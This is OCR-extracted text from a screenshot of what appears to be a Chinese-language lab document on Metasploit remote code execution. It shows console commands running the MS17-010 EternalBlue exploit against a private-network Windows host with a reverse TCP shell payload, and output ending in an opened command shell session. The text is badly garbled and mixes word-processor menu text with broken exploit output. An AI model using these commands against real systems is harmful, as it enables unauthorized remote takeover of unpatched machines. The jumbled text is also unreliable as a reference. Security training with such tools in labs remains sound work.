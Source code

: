 4
exploit/windows/smb/ms17_010_eternalblue_win8
2017-03-14 Payload
use exploit/windows/smb/ms17_010_eternalblue
A Name
·Calibri（正文）·五号 set rhosts 192.168.152.157
み凸BIUA· EXIT
set payload windows/x64/shell/reverse_tcp LHOS
set lhost 192.168.152.148 LPOF
LURI
run
192.168.152.157:445 - ETERNALBLUE overwite compteted successrutty 192.168.152.157:445-Sending egg to corrupted connection.
Exploit
192.168.152.157:445-Triggering free of corrupted buffer. Sending stage (336 bytes) to 192.168.152.157
Id
Command shell session 1 opened (192.168.152.148:4444→192.168.15 20-05-19 22:53:40 -0400
0
[+]
192.168.152.157:445- [+]
192.168.152.157:445-=
-WIN-: [+]
192.168.152.157:445-=-
88 msf5 ex
页■：1／2 〒:1/1
设置值：18.4厘米
行：11 列：43
字数：3／72 拼写检查 文档校对
■■目目2必 rhosts
一■■
msf5 exploit(windows/smb/ms17_010_eternalblue) 

□
首页
临壳模板
33．Metasploit程代码执行．docx
+
x eketang
页面布局
引用审间
视图 章节 安全 开发工具 特色功能 Q查找
已同步·＆协作 分享
✓ Calibri（正文）
·五号
母·报品閏出·文、
AaBbCcDd
AaBb AaBbC AaBbC 文件（F）
动作
B
IU·A·xxA·■·A·A
正文 标题1 标■2 标题3
文極助手 文字工具
壹找醫換·选择·
[*]
世 192
3
exploit/windows/smb/ms17_010_eternalblue
2017-03-14 [+]
192
17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption (64-bj
192
4
exploit/windows/smb/ms17_010_eternalblue_win8